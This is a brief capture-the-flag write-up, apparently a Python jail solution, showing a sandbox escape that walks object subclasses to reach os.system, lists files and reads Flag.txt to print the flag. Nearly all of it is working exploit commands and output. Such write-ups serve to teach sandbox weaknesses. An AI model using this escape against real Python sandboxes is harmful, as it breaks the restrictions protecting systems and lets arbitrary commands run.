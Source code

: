 ```
>>> print([entry.__name__ for entry in ().__class__.__bases__[0].__subclasses__()].index("_wrap_close"))
137
>>> print([].__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('ls'))
Dockerfile
Flag.txt
build.sh
jail.py
0
>>> print(open('Flag.txt','r').read())
KYC{Y0u_Br3k4n_th3_j@1l}
```

- Flag: `KYC{Y0u_Br3k4n_th3_j@1l}`